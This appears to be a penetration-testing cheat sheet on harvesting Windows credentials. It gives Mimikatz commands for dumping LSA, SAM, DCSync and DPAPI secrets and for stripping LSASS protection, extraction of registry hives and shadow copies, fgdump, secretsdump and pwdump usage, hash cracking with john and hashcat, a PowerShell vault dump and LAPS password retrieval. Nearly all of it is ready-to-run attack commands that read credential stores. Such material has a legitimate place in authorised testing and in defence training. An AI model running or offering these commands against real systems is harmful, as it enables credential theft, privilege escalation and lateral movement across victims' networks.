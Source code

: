 # Credentials harvesting

## Enumerate Users And Hashes

```
privilege::debug
token::elevate

lsadump::lsa /inject /name:<user>    //NTLM hash of user
lsadump::dcsync /user:krbtgt         //Hashes of specified user

sekurlsa::logonpasswords //NTLM and SHA1 hashes
sekurlsa::credman        //vault credentials
sekurlsa::ekeys /aes128
sekurlsa::ekeys /aes256

vault::cred    //vault credentials
vault::list    //credman plaintext passwords
```

if the logonpassword command returns an error `Handle on memory (0x00000005)` download the library from [here](https://github.com/ParrotSec/mimikatz/raw/master/Win32/mimidrv.sys) (Win32) or [here](https://github.com/ParrotSec/mimikatz/raw/master/x64/mimidrv.sys) (Win64) in the same folder as the mimikaz executable and use the following commands in Mimikatz to disable LSASS protection

```
!+
!processprotect /process:lsass.exe /remove
```

## NTLM From Password

```
python -c 'import hashlib,binascii; print binascii.hexlify(hashlib.new("md4", "<password>".encode("utf-16le")).digest())'
```

## SAM

### Dumping

#### Manual

Administrative privileges are required to dump register keys

```
reg.exe save hklm\sam c:\dp\sam.save
reg.exe save hklm\system c:\dp\system.save
reg.exe save hklm\security c:\dp\security.save
```

Possible backups location

```
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

#### ShadowCopy Exploit

It is possible to retrieve and dump keys from old backup versions of the system saved with ShadowCopy. Once the backup version is exposed you can dump the SAM credentials and extract  DPAPI hashes. All the following operations require Admin privileges

Enumerate existing copies

```
vssadmin list shadows
```

Create a new shadowCopy archive

```
wmic shadowcopy call create Volume='C:\'
```

Create a link to the copy

<pre><code><strong>mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\&#x3C;shadow copy volume name>\
</strong></code></pre>

IF you're unable to navigate the link due to access permission errors It is still possible to extract files from the shadow copy

```
copy \\?\GLOBALROOT\Device\<shadow copy vol>\windows\system32\config\sam <dest>\sam
copy \\?\GLOBALROOT\Device\<shadow copy vol>\windows\system32\config\system <dest>\system
```

#### fgdump.exe

Runs locally, creates a file with the hashes.

```
fgdump.exe
fgdump.exe -t    #test for anti-virus presence
fgdump.exe -a    #don't try to disable anti-virus
fgdump.exe -r    #ignore existing dump files
```

#### Mimikatz

```
lsadump::sam                 //SAM database
lsadump::secrets             //SAM secrets
```

### Decryption

Impacket - secretsdump.py

<pre><code>secretsdump.py -sam &#x3C;sam file> -system &#x3C;system file> LOCAL
<strong>secretsdump.py -sam &#x3C;sam file> -system &#x3C;system file> -security &#x3C;sec file> LOCAL
</strong></code></pre>

Samdump or Pwdump

```
samdump2 system.save sam.save
pwdump SYSTEM SAM > <file>
```

After obtaining the hashes they can be cracked to obtain the passwords or used in Pass the Hash attacks. In order to obtain the passwords we need only the NT part of the hash. given an hash with the following structure `AAAA:BBBB` the actual string to bruteforce is the one to the right of the column

```
john -format=NT -wordlist=<wordlist> <hashfile>
hashcat -m 1000 -a 0 --force --show --username <hash> <wordlist> #rows follow the format <user>:<hash>
```

## Vault credentials dump

Enumerate credentials manager entries

```
vaultcmd /list
VaultCmd /listcreds:"<entry name>"
```

Dump credentials associated with the vault entry

```
$ClassHolder = [Windows.Security.Credentials.PasswordVault,Windows.Security.Credentials,ContentType=WindowsRuntime]
$VaultObj = new-object Windows.Security.Credentials.PasswordVault
$VaultObj.RetrieveAll() | foreach { $_.RetrievePassword(); $_ }
```

## DPAPI

Usual credential files position

```
%appdata%\Microsoft\Credentials\
%localappdata%\Microsoft\Credentials\
%appdata%\Microsoft\Protect\<usersid>\    //master key
```

Enumerate Credentials hashes. The parameter `guidMasterKey` reveals the hash of the master key

```
dpapi::cred /in:"<path to cred hash>" 
```

Retrieve the master key, decode it and store the key in cache. In order to decrypt the key we need to be operating under the same context (user, system) the key belongs to.&#x20;

```
dpapi::masterkey /in:"<Path to MasterKeyGUID>" 
dpapi::masterkey /in:"<Path to MasterKeyGUID>" /rpc
dpapi::cache
```

Decrypt other hashes with the master key

```
dpapi::cred /in:"<path to CredHash>"
```

## LAPS

Verify that LAPS is installed by searching for `admpwd.dll` usually in `C:\Program Files\LAPS\CSE`

Check available commands in PowerShell

```
Get-Command *AdmPwd*
```

Find groups allowed to interact with LAPS. If command run with a wildcard argument throws an exception after returning one or more values call the command again but this time specify as identity parameter one of the OUs obtained the first time

```
Find-AdmPwdExtendedRights -Identity *
Find-AdmPwdExtendedRights -Identity <OU>
```

Get users of the detected group

```
net groups "<group>"
```

Run the following command in the context of a user part of the  group allowed to interact with LAPS to dump the stored passwords. The target is the machine with LAPS enabled

```
Get-AdmPwdPassword -ComputerName <target>
```
